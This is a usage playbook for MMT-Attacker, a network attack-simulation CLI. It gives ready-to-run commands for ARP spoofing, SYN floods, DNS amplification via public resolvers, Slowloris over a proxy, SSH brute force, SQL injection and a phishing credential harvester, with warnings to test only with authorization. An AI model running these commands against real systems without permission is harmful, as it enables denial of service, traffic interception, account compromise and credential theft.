


# MMT-Attacker CLI Playbook

This playbook provides detailed guidelines for using the MMT-Attacker CLI to perform simulation attacks, either via PCAP replay or using built-in attack scripts.

## Legal Warning ⚠️

This tool is for **EDUCATIONAL AND TESTING PURPOSES ONLY**. Users must:
- Obtain proper authorization before testing
- Use in controlled environments only
- Follow responsible disclosure practices
- Comply with all applicable laws and regulations
- Accept full responsibility for any consequences

Improper use of this tool may be illegal and result in criminal charges.

## Table of Contents
- [Legal Warning ⚠️](#legal-warning-)
- [Table of Contents](#table-of-contents)
- [Prerequisites](#prerequisites)
- [Installation](#installation)
- [Basic Usage](#basic-usage)
- [Understanding Attack Types](#understanding-attack-types)
  - [Attack Flow Overview](#attack-flow-overview)
- [Attack Types](#attack-types)
  - [Network-Layer Attacks](#network-layer-attacks)
    - [ARP Spoofing](#arp-spoofing)
    - [SYN Flood](#syn-flood-attack)
    - [DNS Amplification](#dns-amplification-attack)
    - [Ping of Death](#ping-of-death-attack)
  - [Application-Layer Attacks](#application-layer-attacks)
    - [HTTP DoS](#http-dos-attack)
    - [Slowloris](#slowloris-attack)
    - [SSH Brute Force](#ssh-brute-force-attack)
    - [SQL Injection](#sql-injection-attack)
    - [Credential Harvester](#credential-harvester-attack)
  - [PCAP Replay Attacks](#pcap-replay-attacks)
- [Ethical Considerations](#ethical-considerations)
- [Troubleshooting](#troubleshooting)
- [License](#license)
- [Contact](#contact)

## Prerequisites

- Python 3.7 or higher
- Root/sudo privileges for certain attacks
- Network interface in promiscuous mode for packet capture/injection
- Required Python packages (see requirements.txt)

## Installation

```bash
# Clone the repository
git clone https://github.com/montimage/mmt-attacker.git
cd mmt-attacker

# Install dependencies
pip install -r requirements.txt

# Verify installation
python src/cli.py --help
```

## Basic Usage

The CLI follows this general syntax:
```bash
python src/cli.py <attack-type> [options]
```

Available attack types:
- `arp-spoof`: ARP spoofing attack
- `syn-flood`: SYN flood attack
- `dns-amplification`: DNS amplification attack
- `http-dos`: HTTP DoS attack
- `slowloris`: Slowloris attack
- `ssh-brute-force`: SSH brute force attack
- `sql-injection`: SQL injection attack
- `pcap-replay`: PCAP replay attack
- `ping-of-death`: Ping of Death attack
- `credential-harvester`: Credential harvesting attack

## Understanding Attack Types

This section provides detailed explanations and diagrams for each type of attack supported by MMT-Attacker.

### Attack Flow Overview


## Attack Types

### Network-Layer Attacks

#### ARP Spoofing

**Description:**  
ARP spoofing is a technique that manipulates the Address Resolution Protocol (ARP) to intercept network traffic between targets. The attacker sends falsified ARP messages to link their MAC address with the IP of a legitimate network resource (like the gateway), causing traffic to be redirected through the attacker's machine.

**Attack Flow:**


**Key Features:**
- Bidirectional traffic interception
- MAC address spoofing
- Automatic network restoration
- Real-time traffic monitoring

**Parameters:**
- `--target`: Target IP address to intercept traffic from
- `--gateway`: Gateway IP address to impersonate
- `--interface`: Network interface to use
- `--target-mac`: Target's MAC address (optional, auto-detected if not specified)
- `--bidirectional`: Intercept traffic in both directions
- `--aggressive`: Send ARP packets more frequently
- `--restore-on-exit`: Restore original ARP tables on exit
- `--packet-log`: Path to save intercepted packets
- `--verify`: Verify the attack is working

**Example Usage:**
```bash
# Basic ARP spoofing - Minimal setup
python src/cli.py arp-spoof \
    --target 192.168.1.100 \
    --gateway 192.168.1.1 \
    --interface eth0

# Advanced ARP spoofing - Full control
python src/cli.py arp-spoof \
    --target 192.168.1.100 \
    --target-mac 00:11:22:33:44:55 \
    --gateway 192.168.1.1 \
    --interface eth0 \
    --bidirectional \
    --aggressive \
    --restore-on-exit \
    --packet-log /path/to/log.pcap \
    --verify
```

**Attack Scenarios:**
1. Network Traffic Monitoring
   ```bash
   # Monitor all traffic between target and gateway
   python src/cli.py arp-spoof \
       --target 192.168.1.100 \
       --gateway 192.168.1.1 \
       --interface eth0 \
       --bidirectional \
       --packet-log captured_traffic.pcap
   ```

2. Selective Traffic Interception
   ```bash
   # Target specific host with verification
   python src/cli.py arp-spoof \
       --target 192.168.1.100 \
       --gateway 192.168.1.1 \
       --interface eth0 \
       --verify \
       --restore-on-exit
   ```

**Safety Considerations:**
- Always use `--restore-on-exit` to prevent network disruption
- Monitor network stability during the attack
- Be cautious with `--aggressive` mode as it may flood the network
- Keep logs for analysis and troubleshooting

#### SYN Flood

**Description:**  
SYN Flood is a denial-of-service attack that exploits the TCP three-way handshake. The attacker sends multiple SYN packets with spoofed source addresses, causing the target to exhaust its connection resources waiting for responses that will never come.

**Attack Flow:**


**Key Features:**
- Randomized source IP addresses
- Customizable packet parameters
- Port range targeting
- Connection tracking
- Multi-threaded operation

**Parameters:**
- `--target`: Target IP address to flood
- `--port`: Single port to target
- `--port-range`: Range of ports to target (e.g., 80-85)
- `--interface`: Network interface to use
- `--threads`: Number of parallel attack threads
- `--source-ip`: Source IP (use 'random' for spoofing)
- `--randomize-source`: Randomize source ports
- `--payload-size`: Size of TCP payload in bytes
- `--window-size`: TCP window size
- `--flags`: TCP flags to set (e.g., "SA" for SYN-ACK)
- `--packet-log`: Path to save attack packets

**Example Usage:**
```bash
# Basic SYN flood - Single port
python src/cli.py syn-flood \
    --target 192.168.1.100 \
    --port 80 \
    --threads 4

# Advanced SYN flood - Multiple ports with customization
python src/cli.py syn-flood \
    --target 192.168.1.100 \
    --port-range 80-85 \
    --interface eth0 \
    --source-ip random \
    --randomize-source \
    --payload-size 100 \
    --window-size 16384 \
    --flags "SA" \
    --packet-log /path/to/log.pcap
```

**Attack Scenarios:**
1. Basic Service Disruption
   ```bash
   # Target web server with moderate load
   python src/cli.py syn-flood \
       --target 192.168.1.100 \
       --port 80 \
       --threads 8 \
       --randomize-source
   ```

2. Multi-Service Attack
   ```bash
   # Target multiple services with custom parameters
   python src/cli.py syn-flood \
       --target 192.168.1.100 \
       --port-range 80-443 \
       --threads 4 \
       --source-ip random \
       --payload-size 120
   ```

**Safety Considerations:**
- Start with low thread count and increase gradually
- Monitor target's response and network congestion
- Be cautious with payload size to avoid network saturation
- Use packet logging for analysis and troubleshooting
- Consider impact on intermediate network devices

### Application-Layer Attacks

#### HTTP DoS

**Description:**  
HTTP DoS (Denial of Service) attack targets web applications by overwhelming them with a high volume of HTTP requests. This attack can exhaust server resources, bandwidth, or application worker pools, making the service unavailable to legitimate users.

**Attack Flow:**


**Key Features:**
- Multiple HTTP methods support (GET, POST, etc.)
- Custom headers and cookies
- Random path generation
- Request rate control
- Multi-threaded operation
- Response verification

**Parameters:**
- `--target`: Target URL (e.g., http://example.com)
- `--method`: HTTP method (GET, POST, etc.)
- `--path`: Specific URL path to target
- `--headers`: Custom HTTP headers as JSON
- `--cookies`: Custom cookies as JSON
- `--data`: POST data as JSON
- `--threads`: Number of parallel threads
- `--random-path`: Generate random paths
- `--verify-success`: Verify successful requests
- `--timeout`: Request timeout in seconds
- `--rate-limit`: Requests per second per thread

**Example Usage:**
```bash
# Basic HTTP DoS - Simple GET flood
python src/cli.py http-dos \
    --target http://example.com \
    --threads 10

# Advanced HTTP DoS - Custom POST with headers
python src/cli.py http-dos \
    --target http://example.com \
    --method POST \
    --path /api/endpoint \
    --headers '{"X-Custom": "value"}' \
    --cookies '{"session": "abc123"}' \
    --data '{"key": "value"}' \
    --random-path \
    --verify-success
```

**Attack Scenarios:**
1. Basic Web Server Stress Test
   ```bash
   # High-volume GET requests
   python src/cli.py http-dos \
       --target http://example.com \
       --threads 20 \
       --timeout 5 \
       --rate-limit 100
   ```

2. API Endpoint Testing
   ```bash
   # Target specific API with authentication
   python src/cli.py http-dos \
       --target http://example.com/api \
       --method POST \
       --headers '{"Authorization": "Bearer test"}' \
       --data '{"test": "data"}' \
       --threads 5 \
       --verify-success
   ```

**Safety Considerations:**
- Start with low thread count and rate limits
- Monitor server response times and error rates
- Be cautious with random path generation
- Verify impact on application resources
- Consider effects on shared hosting environments

#### Slowloris

**Description:**  
Slowloris is a low-bandwidth denial of service attack that works by maintaining many partial HTTP connections to the target web server. It sends HTTP requests in pieces very slowly, keeping connections open for as long as possible. This exhausts the server's connection pool, preventing legitimate users from connecting.

**Attack Flow:**


**Key Features:**
- Connection pool management
- Customizable timing intervals
- SSL/TLS support
- Server resource monitoring
- Low bandwidth consumption
- Difficult to detect and filter

**Parameters:**
- `--target`: Target hostname or IP
- `--port`: Target port (default: 80, 443 for SSL)
- `--ssl`: Use SSL/TLS connection
- `--connections`: Number of connections to maintain
- `--keep-alive`: Keep-alive interval in seconds
- `--interval`: Interval between sending headers
- `--socket-timeout`: Socket timeout in seconds
- `--verify-vuln`: Test if target is vulnerable
- `--user-agent`: Custom User-Agent string
- `--proxy`: HTTP/SOCKS proxy for connections

**Example Usage:**
```bash
# Basic Slowloris - Simple connection exhaustion
python src/cli.py slowloris \
    --target example.com \
    --connections 150

# Advanced Slowloris - Fine-tuned with SSL
python src/cli.py slowloris \
    --target example.com \
    --port 443 \
    --ssl \
    --connections 200 \
    --keep-alive 10 \
    --interval 15 \
    --socket-timeout 30 \
    --verify-vuln
```

**Attack Scenarios:**
1. Basic Web Server Test
   ```bash
   # Test with minimal connections
   python src/cli.py slowloris \
       --target example.com \
       --connections 100 \
       --verify-vuln \
       --interval 30
   ```

2. Secure Server Testing
   ```bash
   # Test SSL with custom configuration
   python src/cli.py slowloris \
       --target example.com \
       --ssl \
       --port 443 \
       --connections 150 \
       --user-agent "Mozilla/5.0" \
       --proxy "socks5://127.0.0.1:9050"
   ```

**Safety Considerations:**
- Start with a low number of connections
- Monitor server's response time and error logs
- Be aware of server's connection timeout settings
- Use `--verify-vuln` before full attack
- Consider impact on shared hosting environments
- Monitor local resource usage

### Amplification Attacks

#### DNS Amplification

**Description:**  
DNS Amplification is a DDoS attack that exploits DNS resolvers to overwhelm a target with amplified traffic. The attacker sends DNS queries with a spoofed source IP (the victim's IP) to multiple DNS servers. The responses are much larger than the queries, creating an amplification effect that floods the target.

**Attack Flow:**


**Key Features:**
- Multiple DNS server support
- Query type selection
- Amplification factor verification
- DNS server rotation
- Traffic volume monitoring
- Automatic server filtering

**Parameters:**
- `--target`: Target IP address to attack
- `--dns-server`: Single DNS server to use
- `--dns-servers-file`: File containing list of DNS servers
- `--query-domain`: Domain to query
- `--query-type`: DNS query type (e.g., ANY, TXT)
- `--recursive`: Enable recursive queries
- `--rotate-dns`: Rotate through DNS servers
- `--verify-amplification`: Verify amplification ratio
- `--amplification-threshold`: Minimum amplification ratio
- `--interval`: Delay between queries
- `--threads`: Number of parallel threads

**Example Usage:**
```bash
# Basic DNS amplification - Single server
python src/cli.py dns-amplification \
    --target 192.168.1.100 \
    --dns-server 8.8.8.8 \
    --query-domain example.com

# Advanced DNS amplification - Multiple servers
python src/cli.py dns-amplification \
    --target 192.168.1.100 \
    --dns-servers-file dns_servers.txt \
    --query-domain example.com \
    --query-type ANY \
    --recursive \
    --rotate-dns \
    --verify-amplification \
    --amplification-threshold 10.0
```

**Attack Scenarios:**
1. Basic Amplification Test
   ```bash
   # Test with single DNS server
   python src/cli.py dns-amplification \
       --target 192.168.1.100 \
       --dns-server 8.8.8.8 \
       --query-domain example.com \
       --verify-amplification
   ```

2. Distributed Amplification
   ```bash
   # Use multiple DNS servers with rotation
   python src/cli.py dns-amplification \
       --target 192.168.1.100 \
       --dns-servers-file resolvers.txt \
       --query-type ANY \
       --rotate-dns \
       --threads 4 \
       --interval 0.5
   ```

**Safety Considerations:**
- Verify DNS server responses before attack
- Monitor network bandwidth consumption
- Be cautious with number of parallel threads
- Consider impact on DNS infrastructure
- Use appropriate intervals between queries
- Regularly update DNS server list

### Network-Layer Attacks

#### Ping of Death

**Description:**  
Ping of Death (PoD) is a denial of service attack that sends oversized or malformed ICMP echo request (ping) packets to a target system. When these packets are fragmented and reassembled at the target, they can cause buffer overflows and system crashes in vulnerable systems.

**Attack Flow:**


**Key Features:**
- Oversized packet generation
- IP fragmentation handling
- Custom packet size control
- Multiple target support
- Response monitoring
- System impact analysis

**Parameters:**
- `--target`: Target IP address
- `--targets-file`: File containing multiple targets
- `--size`: Packet size (bytes)
- `--count`: Number of packets to send
- `--interval`: Delay between packets
- `--fragment-size`: Size of IP fragments
- `--interface`: Network interface to use
- `--verify`: Test for vulnerability
- `--timeout`: Response timeout

**Example Usage:**
```bash
# Basic Ping of Death - Single target
python src/cli.py ping-of-death \
    --target 192.168.1.100 \
    --size 65500

# Advanced Ping of Death - Multiple targets
python src/cli.py ping-of-death \
    --targets-file targets.txt \
    --size 65500 \
    --count 100 \
    --interval 0.1 \
    --fragment-size 1024 \
    --verify \
    --timeout 2
```

**Attack Scenarios:**
1. Basic System Testing
   ```bash
   # Test single system for vulnerability
   python src/cli.py ping-of-death \
       --target 192.168.1.100 \
       --size 65500 \
       --count 1 \
       --verify
   ```

2. Network Stress Test
   ```bash
   # Test multiple systems with varied packet sizes
   python src/cli.py ping-of-death \
       --targets-file network_hosts.txt \
       --size 65500 \
       --count 50 \
       --interval 0.5 \
       --fragment-size 1500
   ```

**Safety Considerations:**
- Test on isolated systems first
- Monitor target system stability
- Start with minimal packet sizes
- Use appropriate intervals
- Have system recovery procedures ready
- Document all testing activities

### Application-Layer Attacks

#### Credential Harvester

**Description:**  
The Credential Harvester creates convincing phishing pages by cloning legitimate login forms and collecting submitted credentials. This tool helps security teams test user awareness and validate security controls against phishing attacks.

**Attack Flow:**


**Key Features:**
- Website cloning
- Form customization
- SSL/TLS support
- Real-time monitoring
- Credential logging
- Traffic analysis
- Multiple template support

**Parameters:**
- `--template`: Predefined template to use
- `--target-url`: URL to clone
- `--custom-form`: Path to custom form HTML
- `--port`: Port to listen on
- `--ssl`: Enable HTTPS
- `--cert`: SSL certificate file
- `--key`: SSL private key file
- `--redirect`: URL to redirect after submission
- `--log-file`: File to save captured data

**Example Usage:**
```bash
# Basic harvester with default template
python src/cli.py credential-harvester \
    --template login-form \
    --port 80

# Advanced harvester with SSL
python src/cli.py credential-harvester \
    --target-url https://example.com/login \
    --port 443 \
    --ssl \
    --cert cert.pem \
    --key key.pem \
    --redirect https://real-site.com \
    --log-file harvest.json
```

**Attack Scenarios:**
1. Basic Awareness Testing
   ```bash
   # Simple login page clone
   python src/cli.py credential-harvester \
       --template corporate-login \
       --port 8080 \
       --redirect https://company.com
   ```

2. Advanced Phishing Simulation
   ```bash
   # Custom form with SSL and logging
   python src/cli.py credential-harvester \
       --custom-form templates/custom.html \
       --port 443 \
       --ssl \
       --cert company.crt \
       --key company.key \
       --redirect https://company.com \
       --log-file phish_test.json
   ```

**Safety Considerations:**
- Use only in authorized testing
- Handle captured data securely
- Delete sensitive data after testing
- Monitor for unauthorized access
- Document all test activities
- Inform relevant security teams

### Credential Attacks

#### SSH Brute Force

**Description:**  
SSH Brute Force attack attempts to gain unauthorized access to SSH servers by systematically trying various username and password combinations. The attack can target a single host or multiple hosts, using wordlists for both usernames and passwords, with options for parallel attempts and rate limiting.

**Attack Flow:**


**Key Features:**
- Username/password list support
- Connection rate limiting
- Success detection
- Result logging
- Multi-threading support
- Custom port targeting
- Multiple target support

**Parameters:**
- `--target`: Single target IP or hostname
- `--targets-file`: File containing multiple targets
- `--username`: Single username to try
- `--usernames-file`: File containing usernames
- `--wordlist`: Password wordlist file
- `--passwords-file`: Alternative password file
- `--port`: SSH port (default: 22)
- `--threads`: Number of parallel attempts
- `--timeout`: Connection timeout in seconds
- `--delay`: Delay between attempts
- `--stop-on-success`: Stop after finding valid credentials
- `--output`: Output file for results

**Example Usage:**
```bash
# Basic SSH brute force - Single target
python src/cli.py ssh-brute-force \
    --target 192.168.1.100 \
    --username admin \
    --wordlist passwords.txt

# Advanced SSH brute force - Multiple targets
python src/cli.py ssh-brute-force \
    --target 192.168.1.100 \
    --targets-file targets.txt \
    --usernames-file users.txt \
    --passwords-file passwords.txt \
    --port 2222 \
    --threads 4 \
    --timeout 30 \
    --stop-on-success \
    --output results.txt
```

**Attack Scenarios:**
1. Single User Testing
   ```bash
   # Test specific user account
   python src/cli.py ssh-brute-force \
       --target 192.168.1.100 \
       --username root \
       --wordlist common_passwords.txt \
       --delay 2 \
       --stop-on-success
   ```

2. Multiple Target Scan
   ```bash
   # Scan network range with common credentials
   python src/cli.py ssh-brute-force \
       --targets-file ssh_hosts.txt \
       --usernames-file default_users.txt \
       --passwords-file default_passes.txt \
       --threads 2 \
       --timeout 10 \
       --output scan_results.txt
   ```

**Safety Considerations:**
- Use appropriate delays to avoid account lockouts
- Monitor for security system alerts
- Be cautious with thread count to avoid DoS
- Keep logs of all testing activities
- Respect target system's security policies
- Consider impact on legitimate users

#### SQL Injection

**Description:**  
SQL Injection testing identifies vulnerabilities in web applications where user input is improperly sanitized before being used in SQL queries. The tool systematically tests various injection points with different payloads, analyzing responses to detect successful injections and potential database exposure.

**Attack Flow:**


**Key Features:**
- Multiple DBMS support (MySQL, PostgreSQL, etc.)
- Form field detection and analysis
- Error pattern recognition
- Payload customization and testing
- Response analysis
- Automated exploitation
- Comprehensive reporting

**Parameters:**
- `--target`: Target URL or endpoint
- `--parameter`: Parameter to test for injection
- `--dbms`: Target database type
- `--risk`: Risk level (1-3)
- `--level`: Test intensity level (1-5)
- `--test-forms`: Test HTML form fields
- `--test-cookies`: Test HTTP cookies
- `--data`: POST data to include
- `--headers`: Custom HTTP headers
- `--proxy`: HTTP/SOCKS proxy
- `--report-format`: Report format (text, html, json)
- `--output-dir`: Directory for results

**Example Usage:**
```bash
# Basic SQL injection - Parameter testing
python src/cli.py sql-injection \
    --target http://example.com/login.php \
    --parameter username \
    --dbms mysql

# Advanced SQL injection - Comprehensive scan
python src/cli.py sql-injection \
    --target http://example.com/login.php \
    --parameter username \
    --dbms mysql \
    --risk 2 \
    --level 3 \
    --test-forms \
    --test-cookies \
    --report-format html \
    --output-dir /path/to/reports
```

**Attack Scenarios:**
1. Basic Authentication Bypass
   ```bash
   # Test login form
   python src/cli.py sql-injection \
       --target http://example.com/login \
       --parameter username \
       --dbms mysql \
       --test-forms \
       --risk 1
   ```

2. Advanced Data Extraction
   ```bash
   # Comprehensive parameter testing
   python src/cli.py sql-injection \
       --target http://example.com/api \
       --data "id=1&type=user" \
       --headers '{"X-API-Key": "test"}' \
       --dbms postgresql \
       --risk 3 \
       --level 5 \
       --proxy http://127.0.0.1:8080
## PCAP Replay Attacks

**Description:**  
PCAP Replay functionality allows for the reproduction of previously captured network traffic. This is useful for testing network security controls, analyzing protocol behaviors, and reproducing specific network conditions or attacks. The tool provides control over packet timing, filtering, and interface selection.

**Attack Flow:**


**Key Features:**
- PCAP file support
- Packet timing control
- Traffic filtering
- Interface selection
- Speed adjustment
- Loop control
- Statistics reporting
- Protocol modification

**Parameters:**
- `--file`: PCAP file to replay
- `--interface`: Network interface to use
- `--filter`: BPF filter expression
- `--loop`: Number of replay iterations
- `--speed`: Replay speed multiplier
- `--timing`: Timing mode (original/fast/custom)
- `--start-time`: Start time offset
- `--duration`: Replay duration
- `--modify-ip`: Modify IP addresses
- `--stats`: Enable statistics collection
- `--output`: Statistics output file

**Example Usage:**
```bash
# Basic PCAP replay - Simple replay
python src/cli.py pcap-replay \
    --file capture.pcap \
    --interface eth0

# Advanced PCAP replay - With options
python src/cli.py pcap-replay \
    --file capture.pcap \
    --interface eth0 \
    --filter "tcp port 80" \
    --loop 3 \
    --speed 2.0 \
    --timing original \
    --stats \
    --output replay_stats.json
```

**Attack Scenarios:**
1. HTTP Traffic Replay
   ```bash
   # Replay web traffic
   python src/cli.py pcap-replay \
       --file http_traffic.pcap \
       --interface eth0 \
       --filter "tcp port 80 or port 443" \
       --timing original \
       --modify-ip
   ```

2. DoS Attack Simulation
   ```bash
   # Replay attack traffic at high speed
   python src/cli.py pcap-replay \
       --file dos_attack.pcap \
       --interface eth0 \
       --speed 10.0 \
       --loop 5 \
       --stats \
       --output dos_simulation.json
   ```

**Safety Considerations:**
- Verify target environment capacity
- Monitor network bandwidth usage
- Be cautious with replay speed settings
- Consider impact on production systems
- Test filters before full replay
- Monitor system resources
- Keep replay logs for analysis

## Ethical Considerations

### Professional Ethics

1. **Authorization**
   - Obtain explicit written permission before testing
   - Document scope and limitations of authorization
   - Respect boundaries of testing agreements
   - Report findings responsibly to stakeholders

2. **Responsible Testing**
   - Use only in controlled environments
   - Minimize impact on production systems
   - Avoid collateral damage to other services
   - Follow the principle of least privilege

3. **Data Protection**
   - Protect sensitive information discovered during testing
   - Handle credentials and tokens securely
   - Encrypt and secure test results
   - Delete sensitive data after testing

### Legal Compliance

1. **Regulatory Requirements**
   - Comply with local cybersecurity laws
   - Follow data protection regulations (GDPR, etc.)
   - Maintain proper documentation for compliance
   - Understand jurisdiction-specific restrictions

2. **Industry Standards**
   - Follow security testing frameworks
   - Adhere to professional certifications requirements
   - Maintain industry-standard documentation
   - Use approved testing methodologies

### Responsible Disclosure

1. **Vulnerability Reporting**
   - Follow responsible disclosure policies
   - Give organizations time to fix issues
   - Provide clear documentation of findings
   - Maintain confidentiality during disclosure

2. **Communication**
   - Use appropriate channels for reporting
   - Document findings professionally
   - Provide remediation recommendations
   - Follow up on reported issues

### Risk Management

1. **Impact Assessment**
   - Evaluate potential system impact
   - Consider business continuity
   - Assess network stability risks
   - Plan for incident response

2. **Mitigation Strategies**
   - Have rollback procedures ready
   - Maintain system backups
   - Monitor for unintended effects
   - Document all testing activities

### Professional Development

1. **Skill Enhancement**
   - Stay updated with security trends
   - Learn about new attack vectors
   - Understand defense mechanisms
   - Practice responsible testing

2. **Knowledge Sharing**
   - Contribute to security community
   - Share lessons learned
   - Help improve security tools
   - Mentor others in ethical testing

## Safety Warning

⚠️ **IMPORTANT**: This tool is for educational and testing purposes only. Always:
- Obtain proper authorization before testing
- Use in controlled environments only
- Follow responsible disclosure practices
- Comply with all applicable laws and regulations

## License

Copyright (c) 2025 Montimage

All rights reserved. This software and associated documentation files (the "Software") are the proprietary property of Montimage and are protected by intellectual property laws. Any use, copying, modification, or distribution of the Software without express written permission from Montimage is strictly prohibited.

For licensing inquiries, please contact: contact@montimage.eu

## Contact

**Montimage**
- Website: https://www.montimage.eu
- Email: contact@montimage.eu
- Address: 39 rue Bobillot, 75013 Paris, France
- Phone: +33 1 53 14 33 91

For technical support:
- Email: developer@montimage.eu
- GitHub: https://github.com/montimage/mmt-attacker/issues


